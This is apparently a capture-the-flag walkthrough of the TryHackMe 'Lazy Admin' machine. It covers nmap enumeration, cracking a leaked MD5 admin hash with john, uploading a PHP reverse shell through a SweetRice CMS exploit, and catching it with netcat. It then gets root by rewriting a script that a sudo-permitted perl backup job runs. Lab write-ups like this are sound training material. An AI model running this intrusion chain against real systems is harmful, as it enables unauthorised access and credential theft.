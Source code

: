 ```yaml
---
title: Walkthrough - Lazy Admin
published: true
---
```


Easy linux machine to practice your skills

Linux/Exploit

[https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)

* * *

## Enumerate

```shell
sudo nmap -sC -sV -O 10.10.154.224 -p22,80  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 14:01 PDT
Nmap scan report for 10.10.154.224
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.23 seconds
```

* * * 

## Exploit

1. ``searchsploit sweetrice``
2. ``cat /usr/share/exploitdb/exploits/php/webapps/40718.txt``
3. download mysql backup and cat
4. password hash for admin/manager MD5 42f749ade7f9e195bf475f37a44cafcb
5. feed john ``john admin.manager.hash --format=Raw-MD5 --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
6. Password123

- upload php shellcode https://www.exploit-db.com/exploits/40700
- access shellcode http://10.10.154.224/content/inc/ads/shellcode.php

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.2.127.225] from (UNKNOWN) [10.10.154.224] 35016
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:46:23 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

- ``python -c 'import pty; pty.spawn("/bin/bash")'``
- Check for easy privesc:

```shell
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- so this is running a backup.pl which is running a /etc/copy.sh
- we can replace copy.sh with our ip and get another rev shell running ``/usr/bin/perl /home/itguy/backup.pl``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 10000                                                                                       
listening on [any] 10000 ...
# whoami
root
# pwd
/home/itguy
# cd /root
# ls -las
total 28
4 drwxr-x---  4 root root 4096 iul 14 19:52 .
4 drwxr-xr-x 23 root root 4096 nov 29  2019 ..
0 lrwxrwxrwx  1 root root    9 nov 29  2019 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
4 drwx------  2 root root 4096 feb 27  2019 .cache
4 drwxr-xr-x  2 root root 4096 nov 29  2019 .nano
4 -rw-r--r--  1 root root  148 aug 17  2015 .profile
4 -rw-r--r--  1 root root   38 nov 29  2019 root.txt
# cat root.txt
```


* * * 